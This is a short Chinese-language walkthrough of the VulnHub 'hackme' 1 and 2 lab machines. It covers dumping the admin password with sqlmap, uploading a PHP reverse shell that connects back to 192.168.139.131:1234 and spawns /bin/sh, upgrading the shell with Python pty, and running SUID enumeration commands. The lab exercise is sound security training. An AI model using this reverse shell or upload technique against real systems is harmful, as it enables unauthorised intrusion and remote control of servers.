 # vlunhub靶机 hackme



arp-scan 扫自己的网段找到靶机



## hackme：1

好简单，上去登录拉了，就注册了账号，之后是一个很简单的sqlmap的操作把admin的密码拖出来

![image-20211130124709409](https://gitee.com/yyssllz/pic/raw/master/image-20211130124709409.png)

somd5能到找密码为：Uncrackable

![image-20211130124959967](https://gitee.com/yyssllz/pic/raw/master/image-20211130124959967.png)



上去之后任意文件上传，为了方便操作写了个反弹shell：

```php
<?php
$sock = fsockopen("192.168.139.131", 1234);
$descriptorspec = array(
        0 => $sock,
        1 => $sock,
        2 => $sock
);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
```



再用Python拿个bash交互比较顺心(当然弹的时候主要是sh大家都有)：

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```



之后home目录下有个

![image-20211130131317508](https://gitee.com/yyssllz/pic/raw/master/image-20211130131317508.png)

这样就行了，呃？为什么？没有明白这个是什么考点，不过这样就结束了





## hackme: 2

这出题人是真的懒，比起前面一个题目就多了一个SSTI的地方， 

具体操作是上传一个图片然后SSTI那里（我也不知道是不是SSTI，反正大概是用eval执行了）

![image-20211130210759354](https://gitee.com/yyssllz/pic/raw/master/image-20211130210759354.png)

包含自己的图片，然后反弹shell弹出来，



SUID:

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```



![image-20211130210837907](https://gitee.com/yyssllz/pic/raw/master/image-20211130210837907.png)

打完收工